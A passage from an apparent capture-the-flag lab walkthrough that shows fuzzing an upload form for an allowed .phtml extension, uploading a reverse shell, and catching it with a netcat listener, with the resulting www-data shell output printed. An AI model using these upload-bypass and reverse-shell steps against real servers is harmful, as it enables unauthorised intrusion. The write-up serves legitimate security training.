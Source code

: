 The results will all return a `200` status code which is to be expected, seeing as there is a valid server response, however that is not of much use for our purposes - The response length however is definitely a useful pointer:

![image](https://user-images.githubusercontent.com/14150485/173316855-b14d9a13-de8c-448c-949f-19112f627b9a.png)

<br />

The `.phtml` request has a smaller response length, reason being there is no error returned, and should therefore be an allowed file extension on the target server.

Download the reverse shell as instructed on the task, edit the local IP and port values and save the file with a `.phtml` extension before uploading it using the form.

<br />
<br />

## 3. Privilege escalation

<br />

We start a `netcat` listener on our local machine using the port number specified on the reverse shell script.

```
╭─root@kali ~  
╰─➤  nc -lvnp 4524
listening on [any] 4524 ...
```

<br />

The script file we uploaded on the target machine is located under the `/internal/uploads` folder:

```
http://TARGET_IP:TARGET_PORT/internal/uploads/
```

<br />

Executing the file establishes a connection with the machine.

```
╭─root@kali ~  
╰─➤  nc -lvnp 4524
listening on [any] 4524 ...
connect to [LOCAL_IP] from (UNKNOWN) [10.10.46.142] 42416
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 05:30:19 up  1:55,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

<br />
